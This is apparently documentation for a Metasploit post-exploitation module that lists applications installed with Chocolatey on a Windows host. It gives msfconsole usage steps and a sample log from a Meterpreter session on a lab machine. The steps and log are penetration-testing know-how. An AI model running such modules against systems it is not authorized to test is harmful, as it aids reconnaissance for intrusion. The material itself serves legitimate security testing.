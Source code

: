 ## Vulnerable Application

This module will enumerate all installed applications on a Windows system that
are installed with Chocolatey.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter or shell session
  3. Do: `use post/windows/gather/enum_chocolatey_applications`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

### ChocoPath

This is here for the incredibly rare cases where chocolatey is not on the
system path. It allows you to set the path of the chocolatey executable
ahead of time. Unless this is changed, it assumes to use chocolatey from
the path.

## Scenarios

### Windows 10 Pro (21H2 Build 19044.1586).

```
msf exploit(multi/handler) > [*] Meterpreter session 12 opened (192.168.56.1:4444 -> 192.168.56.112:49906 ) at 2022-03-27 15:57:39 -0400

msf exploit(multi/handler) > use post/windows/gather/enum_chocolatey_applications 
msf post(windows/gather/enum_chocolatey_applications) > set SESSION 12
SESSION => 12
msf post(windows/gather/enum_chocolatey_applications) > run

[*] Enumerating applications installed on DESKTOP-LB04G7R
[*] Targets Chocolatey version: 1.0.0
[*] Getting chocolatey applications.
[+] Successfully grabbed all items
Installed Chocolatey Applications
=================================

Name                       Version
----                       -------
GoogleChrome               99.0.4844.82
SQLite                     3.38.1
chocolatey                 1.0.0
chocolatey-core.extension  1.3.5.1
notepadplusplus            8.3.3
notepadplusplus.install    8.3.3
sublimetext3               3.2.2

[+] Results stored in: /home/rad10/.msf4/loot/20220327160034_default_192.168.56.112_host.application_704988.txt
[*] Post module execution completed
```
